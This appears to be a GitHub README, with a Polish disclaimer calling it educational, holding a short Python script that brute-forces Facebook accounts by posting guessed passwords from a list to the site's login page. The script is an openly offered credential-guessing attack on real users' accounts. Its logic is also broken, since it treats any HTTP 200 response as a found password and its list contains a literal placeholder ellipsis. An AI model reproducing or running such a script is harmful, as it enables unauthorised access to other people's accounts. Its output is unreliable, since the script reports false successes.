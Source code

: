 # Brute-force-
Brute force Facebook "używajcie w calch edukacji" nie ponoszę odpowiedźi





import requests
import time

def brute_force(username, password):
    url = "https://www.facebook.com/login.php"
    payload = {
        "email": username,
        "password": password,
        "login": "Log In"
    }
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Znaleziono hasło:", password)
        return True
    else:
        return False

def main():
    username = input("Podaj nazwę użytkownika: ")
    password_list = ["hasło1", "hasło2", "hasło3", ...]

    for password in password_list:
        if brute_force(username, password):
            break

    else:
        print("Nie znaleziono hasła.")

if __name__ == "__main__":
    main()
